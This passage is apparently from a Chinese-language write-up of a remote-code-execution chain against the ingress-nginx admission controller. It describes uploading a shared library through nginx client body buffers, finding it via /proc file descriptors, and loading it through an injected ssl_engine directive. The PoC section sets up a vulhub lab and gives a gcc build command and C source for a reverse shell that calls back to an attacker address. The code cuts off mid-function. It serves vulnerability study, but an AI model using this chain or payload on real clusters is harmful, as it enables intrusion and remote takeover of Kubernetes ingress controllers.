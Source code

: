 ### Uploading a shared library with NGINX Client Body Buffers

與 nginx -t 跟 admission controller 相同，POD 會執行 nginx 本身，並且 listen 在 80 或 443 port
處理 request 時，nginx 有時候會將 request 保留到 temporary file( [client body buffering](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size))，這種情況發生於 request size 太大的時候，所以我們可以發送一個較大的 request，包含我們的 payload，這時候就會將 temporary file 存放到 POD 的 file system 文件，不過 nginx 會立即刪除 file，所以不太好利用，但 nginx 會包含一個指向該文件的 descriptor，可以從 [ProcFS](https://docs.kernel.org/filesystems/proc.html) 訪問
為了讓 file descriptor 一直開啟，可以讓 request 的 content-length header 設定大於實際大小，這樣 nginx 就會繼續等待，會導致 nginx 卡住，可以讓 file descriptor 打開更長時間，這個方式的唯一缺點是我們會在另一個 process 創建文件，所以沒辦法使用 /proc/self 訪問，所以只能使用猜測 PID 跟 FD 才可以找到 shared library，但因為這是一個較小的 process 所以可以快速暴力出來

### From Configuration Injection to RCE

所以綜合起來我們可以串起漏洞進行 RCE
1. 透過濫用 nginx client 的 buffer feature 上傳 shared library
2. 向 ingress nginx controller 的 admisstion controller 發送包含 injection payload 的 AdmissionReview request
3. 透過 `ssl\_engine` 可以去 load shared library
4. 指定 ProcFS 到 file descriptor
5. 最後就 load shared library 並且 RCE

## PoC

### 環境建置

可以透過 https://mp.weixin.qq.com/s/JjdtzRVin9zedz8bdHh9Rg 架設，但步驟相對複雜且困難，所以使用 vulhub 建置好的 docker images

```yml
services:
  k3s:
    image: vulhub/ingress-nginx:1.9.5
    privileged: true
    environment:
      - K3S_KUBECONFIG_MODE=666
    ports:
      - 30080:30080
      - 30443:30443
```

shell.c：用來開 reverse shell
因為是用 shared library 的方式，所以要以此編譯

```bash
gcc -shared -fPIC -o shell.so shell.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
__attribute__((constructor)) static void reverse_shell(void){
    char *server_ip = ""; // 填入 IP
    uint32_t server_port = ; // 填入 port
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock < 0){
        exit(1);
    }
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
    if (connect(sock, (struct sockaddr *)&attacker_addr, sizeof(attacker_addr)) != 0){
```